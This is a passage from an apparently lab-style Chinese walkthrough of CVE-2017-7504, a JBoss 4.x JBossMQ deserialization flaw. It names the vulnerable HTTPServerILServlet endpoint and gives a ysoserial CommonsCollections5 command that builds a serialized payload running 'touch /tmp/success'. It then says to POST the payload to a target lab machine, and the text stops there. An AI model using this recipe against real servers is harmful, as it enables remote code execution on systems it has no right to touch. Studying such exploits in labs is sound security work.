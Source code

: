 # CVE-2017-7504 Java Deserialization
JBoss 4.x JBossMQ JMS 反序列化漏洞

Red Hat JBoss Application Server 是⼀款基于JavaEE的开源应⽤服务器。JBoss AS 4.x及之前版本 中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java⽂件存在反 序列化漏洞，远程攻击者可借助特制的序列化数据利⽤该漏洞执行任意代码。

1.该漏洞出现在 /jbossmq-httpil/HTTPServerILServlet 请求中，本次实验借助 ysoserial 的 CommonsCollections5 利⽤链来利⽤该漏洞。你可以从 [1] 下载 ysoserial-all.jar ，也可以直接使⽤仓库中的 ysoserial-all.jar 。此处需要⼤家有 Java环境[2]。
```java
   java -jar ysoserial-all.jar CommonsCollections5 "touch /tmp/success" > poc.ser
```
2.发送漏洞利用
我们将poc.ser⽂件内容作为POST Body发送到目标靶机